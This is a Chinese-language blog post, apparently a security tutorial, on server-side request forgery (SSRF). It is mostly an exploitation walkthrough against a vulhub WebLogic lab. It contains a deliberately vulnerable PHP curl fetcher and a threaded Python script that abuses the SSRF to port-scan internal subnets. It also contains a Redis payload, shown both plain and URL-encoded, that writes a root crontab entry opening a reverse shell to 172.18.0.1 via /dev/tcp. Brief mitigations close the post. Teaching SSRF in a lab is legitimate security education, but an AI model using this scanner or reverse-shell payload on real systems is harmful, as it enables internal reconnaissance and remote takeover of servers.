 ```yaml
---
layout: post
title:  "Server Side Request Forgery (SSRF)"
date:   2019-01-21 20:15:33 +0700
categories: [Web安全]
---
```


SSRF（Server-Side-Request-Forgery，服务端请求伪造）是一种由攻击者构造请求，由服务端发起请求的安全漏洞。一般情况下，SSRF攻击的目标是外网无法访问的内部系统（因为请求由服务端发起的，所以服务端能请求到与自身相连而与外网隔离的内部系统）。

## 0x00 漏洞原理

SSRF 的形成原理大多是由于服务端提供了从其他服务器应用获取资源数据的功能但是没有对目标地址做过滤与限制。例如，黑客操作服务端从用户指定的URL，web应用可以获取图片，下载文件，读取文件内容等。如果这个功能被恶意利用，那么利用这个存在缺陷的Web应用作为代理攻击远程和本地的服务器，即当作跳板机，可作为`ssrfsocks`代理

攻击图示

![SSRF]({{site.url}}/images/SSRF.png)

## 0x01 SSRF能干些什么？

可以越过防火墙进行攻击，直接有服务器发起攻击，平常服务器所处的内网我们是访问不了的。

![Snipaste_2019-01-17_16-28-37]({{site.url}}/images/Snipaste_2019-01-17_16-28-37.png)

主要的攻击方式：

* 对外网、服务器所在的内网、本地进行端口扫描，获取一些服务的`banner` 信息
* 攻击运行所在的内网或本地应用程序
* 对内网web应用进行指纹识别，识别企业内部的资产信息
* 攻击内外网的web应用，主要使用HTTP、GET请求就可以实现的攻击（比如Struts2、SQLi）
* 利用file协议读取本地文件等。

![Snipaste_2019-01-17_19-18-05]({{site.url}}/images/Snipaste_2019-01-17_19-18-05.png)

## 0x03 漏洞利用

### 简单测试代码

常见的后端代码实现，使用curl获取数据。

```php
<?php
function curl($url){
	$ch = curl_init(); //初始化curl组件
	curl_setopt($ch, CURLOPT_URL, $url); 
	curl_setopt($ch, CURLOPT_HEADER,0);
	curl_exec($ch); //执行请求url
	curl_close($ch);
}
$url = $_GET['url'];
curl($url);

?>
```

该代码实现的功能是获取GET参数URL，然后将URL的内容返回到网页上。我们将请求参数`url`改为`http://www.baidu.com`，执行后可以看到以下页面

![Snipaste_2019-01-17_21-12-36]({{site.url}}/images/Snipaste_2019-01-17_21-12-36.png)

如果将参数`url`为内网地址，则会泄露内网信息，将`url`改为`192.168.0.103:3306`（服务器的地址）页面返回

![Snipaste_2019-01-17_21-14-53]({{site.url}}/images/Snipaste_2019-01-17_21-14-53.png)

读取本地文件

![Snipaste_2019-01-17_21-15-46]({{site.url}}/images/Snipaste_2019-01-17_21-15-46.png)

### Weblogic SSRF漏洞

参考：<http://blog.gdssecurity.com/labs/2015/3/30/weblogic-ssrf-and-xss-cve-2014-4241-cve-2014-4210-cve-2014-4.html>

使用镜像：https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf

环境搭建：

```
docker-compose build
docker-compose up -d
```

运行完上面两条命令后，漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，访问后可以看到![Snipaste_2019-01-17_21-42-11]({{site.url}}/images/Snipaste_2019-01-17_21-42-11.png)

现在来进行内网端口扫描，使用脚本

```python
# -*- coding: utf-8 -*- 

import re
import sys
import time
import thread
import requests
def scan(ip_str):
  ports = ('21','22','23','53','80','135','139','443','445','1080','1433','1521','3306','3389','4899','8080','6379','7001','8000',)
  for port in ports:
    exp_url = "http://192.168.244.170:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://%s:%s"%(ip_str,port)
    try:
      response = requests.get(exp_url, timeout=15, verify=False)
      #SSRF判断
      re_sult1 = re.findall('weblogic.uddi.client.structures.exception.XML_SoapException',response.content)
      #丢失连接.端口连接不上
      re_sult2 = re.findall('but could not connect',response.content)
      if len(re_sult1)!=0 and len(re_sult2)==0:
        print ip_str+':'+port
    except Exception, e:
      pass
def find_ip(ip_prefix):
  '''
  给出当前的192.168.1 ，然后扫描整个段所有地址
  '''
  for i in range(1,256):
    ip = '%s.%s'%(ip_prefix,i)
    thread.start_new_thread(scan, (ip,))
    time.sleep(3)
    
if __name__ == "__main__":
  commandargs = sys.argv[1:]
  args = "".join(commandargs)
  ip_prefix = '.'.join(args.split('.')[:-1])
  find_ip(ip_prefix)
```

注意上面的`exp_url` 要修改为自己的服务器IP

![Snipaste_2019-01-17_21-45-25]({{site.url}}/images/Snipaste_2019-01-17_21-45-25.png)

`172.17.0.1`  是docker里面的地址，也就是内网地址

通过ssrf 探测到内网中redis服务器 `172.17.0.2:6379`正常访问

构造脚本写入 目录`‘/etc/crontab‘`

```
​```
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.18.0.1/21 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
​```
```

进行`url`编码：

~~~url
```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```
~~~

最后反弹shell成功

## 0x04 漏洞挖掘

![1707150408d39c5b2dcf5e1a20]({{site.url}}/images/1707150408d39c5b2dcf5e1a20.jpg)

## 0x05 漏洞修复

* 限制请求的端口只能为web服务端口，只允许访问HTTP和HTTPS的请求
* 限制不能访问内网IP，以防止对内网进行攻击
* 屏蔽返回的详细信息

